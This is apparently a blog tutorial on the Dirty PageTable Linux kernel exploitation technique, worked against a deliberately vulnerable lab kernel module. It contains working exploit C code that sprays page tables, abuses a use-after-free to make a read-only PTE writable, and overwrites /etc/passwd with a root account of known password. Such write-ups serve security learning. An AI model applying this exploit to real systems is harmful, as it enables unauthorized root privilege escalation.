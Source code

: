 ```yaml
---
title: Linux Kernel Exploitation - Dirty PageTable
date: 2025-04-28
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain Dirty PageTable, a universal and data-only exploitation technique that allows us to gain arbitrary read and write access to the entire physical memory. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-pagetable) beforehand.

## Analysis
The vulnerable LKM provides four commands: `CMD_ALLOC`, `CMD_READ`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, read from, write to, and free objects defined as follows:
```c
#define OBJ_SIZE    0x200

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` and `obj_free` internally use `kmem_cache_zalloc` and `kmem_cache_free`, respectively.
This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}
```
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. Since we already have read and write primitives, It is not difficult to control RIP and escalate privileges by performing cross-cache attack, as explained in the [previous post](https://r1ru.github.io/posts/1/). However, in this post, we take a data-only approach using Dirty Pagetable. Data-only attacks are increasingly important in the current era (due to CONFIG_CFI_CLANG) and are widely used in real-world kernel exploits.

## Dirty PageTable
As explained in the [previous post](https://r1ru.github.io/posts/1/), by using cross-cache attack, we can overlap victim objects with arbitrary kernel objects. In Dirty PageTable, we overlap victim objects with page tables. Since we already have read and write primitives, we can modify page tables as we like, resulting in arbitrary read and write access to the entire physical memory.

## Exploitation
The initial steps are the same as in the [previous post](https://r1ru.github.io/posts/1/#exploitation). The difference is in the fourth step, where we allocate a large number of page tables:
```c
int file_fd = open("/etc/passwd", O_RDONLY);
assert(file_fd != -1);

puts("[*] Spraying user pagetables to reclaim order-0 pages");
for (int i = 0; i < NUM_PAGE_TABLE_SPRAY ; i++) {
    if (mmap((void *)(0xdead0000000UL + 0x200000 * i), PAGE_SIZE, PROT_READ, MAP_SHARED | MAP_FIXED_NOREPLACE, file_fd, 0) == MAP_FAILED) {
        printf("[-] Failed to mmap %#lx\n", 0xdead0000000UL + 0x200000 * i);
        exit(1);
    }
    *(volatile char*)(0xdead0000000UL + 0x200000 * i);
}
```
Here, we map /etc/passwd to user space. Note that we use `MAP_FIXED_NOREPLACE` flag and read from the page to ensure the page mapping is new and actually mapped.

Next, we locate the victim object and modify the PTE:
```c
unsigned long pte;
int victim = -1;
for (int i = 0; i < num_sprary; i += objs_per_slab * 2) {
    obj_read(i, (char *)&pte, 8);
    if (pte != 0) {
        victim = i;
        printf("[+] Found victim = %d, pte = %#lx\n", victim, pte);
        pte |= 0x2;
        printf("[*] Overwritting PTE with %#lx\n", pte);
        obj_write(victim, (char *)&pte, 8);
        break;
    }
}
if (victim == -1) {
    puts("[-] Failed to locate the victim object");
    exit(0);
}
```
Here, we enable the R/W flag. After this, we can modify /etc/passwd, even though the page was initially mapped as read-only. See the [osdev article](https://wiki.osdev.org/Paging) for more details about paging.

Finally, we overwrite /etc/passwd (`j9ep0CjBGivAnD5z6l5rr0` is MD5-encoded password with salt `deadbeef`):
```c
system("echo -e 'root:$1$deadbeef$j9ep0CjBGivAnD5z6l5rr0:0:0:root:/root:/bin/sh' > /tmp/evil");
int evil_fd = open("/tmp/evil", O_RDONLY);
assert(evil_fd != -1);
struct stat evil_stat;
assert(fstat(evil_fd, &evil_stat) != -1);

for (int i = 0; i < NUM_PAGE_TABLE_SPRAY ; i++) {
    if (pread(evil_fd, (char *)(0xdead0000000UL + 0x200000 * i), evil_stat.st_size, 0) != -1) {
        puts("[+] Success");
        puts("[+] You can now log in as root with the password: cafebabe");
        exit(0);
    }
}
```
Note that we use `pread` to ignore `SIGSEGV`. If we directly write to memory and the corresponding PTE is not valid, the program will exit.

By running this exploit, we can log in as a root user and see the flag:

![win](/assets/img/posts/2025-04-28-2/win.png)

## References
> The original article, *Nicolas Wu. Dirty Pagetable: A Novel Exploitation Technique To Rule Linux Kernel. https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html* seems to be broken now.
{: .prompt-info }
1. Jann Horn. 2021. How a simple Linux kernel memory corruption bug can lead to complete system compromise. https://googleprojectzero.blogspot.com/2021/10/how-simple-linux-kernel-memory.html